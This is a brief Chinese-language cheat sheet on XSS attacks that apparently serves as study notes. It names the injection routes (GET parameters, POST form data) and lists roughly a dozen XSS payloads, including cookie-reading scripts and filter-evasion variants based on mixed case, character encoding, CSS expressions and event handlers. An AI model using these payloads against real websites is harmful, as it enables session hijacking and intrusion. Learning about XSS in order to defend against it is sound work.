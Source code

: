 什么是XSS攻击
https://www.cnblogs.com/TankXiao/archive/2012/03/21/2337194.html

XSS常见的三种攻击方式
1. 修改GET参数
2. 修改提交表单数据（修改POST参数）


常见攻击形式
```
<script>alert('xss')</script> //默认形式

<ScrIpT>alert("xss")</SCriPt> //变换大小写

"/><script>alert(document.cookie)</script><!--　　// <!-- 表示的意思是 闭合注释

<script>alert(document.cookie)</script><!--

"onclick="alert(document.cookie)

<img src=javascript:alert("xss")></img //变换形式

<img src=j&#97vascript:alert("xss")> //使用ASCII表示

<IMG SRC="jav&#x09;ascript:alert('XSS');" > //插入干扰

<DIV STYLE="width:expression(alert(163));"> //其他属性

<DIV STYLE="xss:expr/*XSS*/ession(alert(163))"> //再干扰

<img src="#" onerror=alert(/xss/)> //借用事件
```
